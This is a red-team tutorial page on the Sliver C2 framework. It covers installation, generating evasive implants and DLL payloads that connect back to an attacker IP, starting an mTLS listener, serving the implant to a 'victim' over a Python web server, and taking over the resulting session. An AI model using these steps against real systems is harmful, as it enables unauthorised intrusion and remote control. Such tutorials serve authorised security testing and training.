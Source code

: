 # Sliver

## About

[Sliver](https://github.com/BishopFox/sliver) is an open source projected created and maintained by [BishopFox](https://www.bishopfox.com/) as an open source multi-platform adversary emulation and red team tool. Sliver facilitates the generations of reverse connection payloads as EXE, DLL, or Shellcode.

### Links

[Github](https://github.com/BishopFox/sliver) [Sliver Wiki](https://github.com/BishopFox/sliver/wiki/Getting-Started)

## Installing

It has binaries for Windows, Linux, MacOS allowing you to deploy Sliver C2 infrastructure on any system. - This can be downloaded directly from the [Sliver Repo](https://github.com/BishopFox/sliver/releases) using wget or directly.

* Pre-reqs

```
sudo apt install -y mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

* Install on system

```
curl https://sliver.sh/install | sudo bash
```

* Run it

```
sliver
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FZdHaNklKw63ti1DTNW5W%252Fimage.png%3Falt%3Dmedia%26token%3Dd9d14053-e6c9-4263-ae9c-4406a79b75ae\&width=768\&dpr=4\&quality=100\&sign=85a377d9\&sv=2)

### Standalone release

```
wget https://github.com/BishopFox/sliver/releases/download/v1.4.14/sliver-server_linux.zip
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FFk90cfZLRP51UCHjyHoE%252Fimage.png%3Falt%3Dmedia%26token%3D44541d48-d69b-4b27-b767-cec233abcf77\&width=768\&dpr=4\&quality=100\&sign=f1379caf\&sv=2)

* Unzip the file

```
unzip sliver-server_linux.zip
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FdanhnhcE9fI0F1GieFik%252Fimage.png%3Falt%3Dmedia%26token%3Dac414235-50ba-4d95-915c-c1a5f719dbbc\&width=768\&dpr=4\&quality=100\&sign=5309f22e\&sv=2)

* Make it executable

```
chmod +x sliver-server
```

* Run it

```
sudo ./sliver-server
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FlgQlsMu6wn4N0ueBqjEw%252Fimage.png%3Falt%3Dmedia%26token%3Db380ba20-6aa7-4954-9663-2c82339eb853\&width=768\&dpr=4\&quality=100\&sign=a3d7cc23\&sv=2)

## Usage

### Making a payload

to generate at payload you must know your IP address(external if this is hosted externally). This will generate a randomly named executable file file that can be delivered to targets in a variety of ways. The flags `-m` and `-e` flags used above represent Natural-TLS connection to use to connect back on and evasion respectively. The IP address entered is the IP address of your Sliver server.

```
generate -m (attacker ip) -e
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FQwrdKzXsbqxnScqz8UMT%252Fimage.png%3Falt%3Dmedia%26token%3Df5864612-9802-4bac-a894-06affc4ace4f\&width=768\&dpr=4\&quality=100\&sign=544ca7d4\&sv=2)

The executable file will be in the folder where sliver was run.&#x20;

<figure><img src="https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FQGv7GbqeMMhVTwgmOJRT%252Fimage.png%3Falt%3Dmedia%26token%3Ddff24fe0-05ca-4c1d-8729-df1df8791406&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=5dac6b08&#x26;sv=2" alt=""><figcaption></figcaption></figure>

### Making .dll payload

```
generate —mtls (attacker ip) —format shared —skip-symbols
```

### Starting The MTLS Listener

The listener must be started before the delivery and exectuion of the payload on a target system. This listener will display all active connectsions from target systems to your C2 server.

```
mtls
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FqaLWCr24EJv3rLEbmb5J%252Fimage.png%3Falt%3Dmedia%26token%3Def45954b-a96a-49d4-adb9-c36eff406eca\&width=768\&dpr=4\&quality=100\&sign=f50b18cb\&sv=2)

### Exploit

Get the executable onto the victim. I'll do this via a quick python webserver.

```
python3 -m http.server 8008
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FXMkOtRtG8q0xEYWvgHxe%252Fimage.png%3Falt%3Dmedia%26token%3Dc9074eaa-1a21-4b15-b533-fcbcd1c3159d\&width=768\&dpr=4\&quality=100\&sign=afd0a604\&sv=2)

When the server is being accessed and a file is being downloaded&#x20;

<figure><img src="https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FqWk8ml8gmA03S9F8V2OH%252Fimage.png%3Falt%3Dmedia%26token%3D299234f4-2e5d-4e85-8e64-b7ecb72c014c&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=3c06dbc6&#x26;sv=2" alt=""><figcaption></figcaption></figure>

On the victim machine go to the webserver and click on the file you want to download &#x20;

<figure><img src="https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FfZ5b3V8i0q0Dgt4BJyx4%252Fimage.png%3Falt%3Dmedia%26token%3Dd8b05566-cbc4-4bb8-8b23-d1c8bfbbba4c&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=aeaa7b2f&#x26;sv=2" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FbOs5WIKRykzNB2U93FA2%252Fimage.png%3Falt%3Dmedia%26token%3Ddd607ab9-2fce-4d9e-9d16-ce7dc94f7ce0&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=f016f75b&#x26;sv=2" alt=""><figcaption></figcaption></figure>

Once it is executed, we should see the connection from the sliver terminal.&#x20;

<figure><img src="https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252F10rjyyYDW3zfwhhOQewX%252Fimage.png%3Falt%3Dmedia%26token%3D6b36b1dc-aafe-4342-8db8-90fdd21e98d6&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=ad999740&#x26;sv=2" alt=""><figcaption></figcaption></figure>

We can also check on active sessions or alive sessions with `sessions`&#x20;

<figure><img src="https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FaQ3OKsMEo3CQYf9ZKpmH%252Fimage.png%3Falt%3Dmedia%26token%3Dc12c9cd8-9184-4caf-bddd-108b190418bb&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=6ea226c9&#x26;sv=2" alt=""><figcaption></figcaption></figure>

Connect to the session

```
sessions -i (session id)
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FctbNOo1zP3r61UUkerim%252Fimage.png%3Falt%3Dmedia%26token%3D260b16c3-8755-4466-898a-b48e116bf5a2\&width=768\&dpr=4\&quality=100\&sign=dda9838f\&sv=2)

Run whatever commands you may need/want:&#x20;

<figure><img src="https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FLGi10lWw2zcjl4wDJVPL%252Fimage.png%3Falt%3Dmedia%26token%3D06158d0f-dbbb-4232-b4f5-f7df98ec3d07&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=423764e1&#x26;sv=2" alt=""><figcaption></figcaption></figure>
